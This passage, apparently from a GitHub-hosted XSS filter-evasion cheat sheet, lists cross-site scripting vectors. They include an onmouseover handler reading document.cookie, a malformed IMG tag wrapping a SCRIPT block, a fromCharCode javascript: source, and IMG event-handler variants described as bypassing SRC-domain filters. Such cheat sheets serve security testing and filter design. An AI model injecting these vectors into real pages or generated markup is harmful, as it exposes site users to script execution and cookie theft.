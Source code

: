 <p>or Chrome loves to replace missing quotes for you... if you ever get stuck just leave them off and Chrome will put them in the right place and fix your missing quotes on a URL or script.</p>
<pre><code>\&lt;a onmouseover=alert(document.cookie)\&gt;xxs link\&lt;/a\&gt;
</code></pre>
<h2><a id="user-content-malformed-img-tags" class="anchor" aria-hidden="true" href="#malformed-img-tags"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>Malformed IMG tags</h2>
<p>Originally found by Begeek (but cleaned up and shortened to work in all browsers), this XSS vector uses the relaxed rendering engine to create our XSS vector within an IMG tag that should be encapsulated within quotes. I assume this was originally meant to correct sloppy coding. This would make it significantly more difficult to correctly parse apart an HTML tags:</p>
<pre><code>&lt;IMG """&gt;&lt;SCRIPT&gt;alert("XSS")&lt;/SCRIPT&gt;"\&gt;
</code></pre>
<h2><a id="user-content-fromcharcode" class="anchor" aria-hidden="true" href="#fromcharcode"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>fromCharCode</h2>
<p>If no quotes of any kind are allowed you can eval() a fromCharCode in
JavaScript to create any XSS vector you need:</p>
<pre><code>&lt;IMG SRC=javascript:alert(String.fromCharCode(88,83,83))&gt;
</code></pre>
<h2><a id="user-content-default-src-tag-to-get-past-filters-that-check-src-domain" class="anchor" aria-hidden="true" href="#default-src-tag-to-get-past-filters-that-check-src-domain"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>Default SRC tag to get past filters that check SRC domain</h2>
<p>This will bypass most SRC domain filters. Inserting javascript in an event method will also apply to any HTML tag type injection that uses elements like Form, Iframe, Input, Embed etc. It will also allow any relevant event for the tag type to be substituted like <code>onblur</code>, <code>onclick</code> giving you an extensive amount of variations for many injections listed here. Submitted by David Cross .</p>
<p>Edited by Abdullah Hussam(@Abdulahhusam).</p>
<pre><code>&lt;IMG SRC=# onmouseover="alert('xxs')"&gt;
</code></pre>
<h2><a id="user-content-default-src-tag-by-leaving-it-empty" class="anchor" aria-hidden="true" href="#default-src-tag-by-leaving-it-empty"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>Default SRC tag by leaving it empty</h2>
<pre><code>&lt;IMG SRC= onmouseover="alert('xxs')"&gt;
</code></pre>
<h2><a id="user-content-default-src-tag-by-leaving-it-out-entirely" class="anchor" aria-hidden="true" href="#default-src-tag-by-leaving-it-out-entirely"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>Default SRC tag by leaving it out entirely</h2>
<pre><code>&lt;IMG onmouseover="alert('xxs')"&gt;
</code></pre>